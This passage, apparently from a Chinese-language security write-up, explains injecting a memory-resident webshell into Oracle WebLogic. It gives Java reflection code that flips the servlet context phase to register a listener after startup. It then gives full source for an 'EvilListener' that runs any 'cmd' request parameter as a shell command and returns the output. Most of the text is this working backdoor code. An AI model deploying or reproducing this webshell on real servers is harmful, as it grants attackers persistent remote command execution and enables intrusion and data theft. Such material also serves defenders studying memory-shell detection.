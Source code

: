 ```java
        throw new UnsupportedOperationException(logger.getMessage());
    }
}
```

跟tomcat是类似的，只需要反射改掉即可，注册完要改回来

```java
Field phaseF = context.getClass().getDeclaredField("phase");
phaseF.setAccessible(true);
phaseF.set(context, weblogic.servlet.internal.WebAppServletContext.ContextPhase.INITIALIZER_STARTUP);
			
Method registerServletM = (Method)context.getClass().getDeclaredMethod("registerListener",String.class);
registerServletM.setAccessible(true);
registerServletM.invoke(context,"EvilListener");

phaseF.set(context, weblogic.servlet.internal.WebAppServletContext.ContextPhase.START);
```

恶意listener，这里实现的是`ServletRequestListener`

```java
import javax.servlet.*;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;

public class EvilListener implements ServletRequestListener {
    String aa;
    public void requestInitialized(ServletRequestEvent ev) {
        try{
            ServletRequest request = ev.getServletRequest();
            ServletResponse response  = ((weblogic.servlet.internal.ServletRequestImpl)request).getResponse();

            String cmd = request.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = response.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }catch(Exception ex){
            ex.printStackTrace();
        }
    }

    public void requestDestroyed(ServletRequestEvent ev) {
    }
}
```
